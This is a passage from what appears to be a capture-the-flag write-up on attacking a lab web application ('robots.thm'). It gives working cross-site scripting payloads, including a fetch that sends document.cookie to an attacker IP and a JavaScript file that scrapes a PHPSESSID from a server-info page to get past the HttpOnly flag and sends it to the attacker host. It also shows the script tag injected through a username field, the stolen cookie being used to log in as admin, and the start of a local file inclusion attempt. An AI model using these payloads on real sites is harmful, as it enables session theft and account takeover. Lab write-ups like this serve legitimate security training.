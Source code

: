 ```
echo -n "<script>fetch("http://10.6.34.159:8000/?cookie="+document.cookie)</script>0101" | md5sum
```

If we try getting our cookie, we are unable to do so, due to this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317143641.png)

The `HttpOnly` flag is set in the server, this prevents JS to access the cookie, we can exploit this in other way though, let's use this script:

```js
var url = "http://robots.thm/harm/to/self/server_info.php";
var attacker = "http://10.6.34.159/exfil";
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var match = xhr.responseText.match(/PHPSESSID=([a-zA-Z0-9]+)/);
        if (match) {
            fetch(attacker + "?cookie=" + match[1]);
        }
    }
}

xhr.open('GET', url, true);
xhr.send(null);
```

We can find this in HackTricks, we just needed to adapt the content to steal the cookie only:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317143941.png)

Now, let's register an username with the following:

```
<script src="http://10.6.34.159/cookie_steal.js"></script>
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250317144124.png)

We can see this in our python server:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317144147.png)

Got our cookie:

```
6p7hh3m9oh0shm3icts9c1qt2h
```

Let's change our value and login as admin:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317144245.png)

We find out a test URL site, we can try some techniques such as trying the LFI, let's try, first, let's set up a python server and point out our own URL:

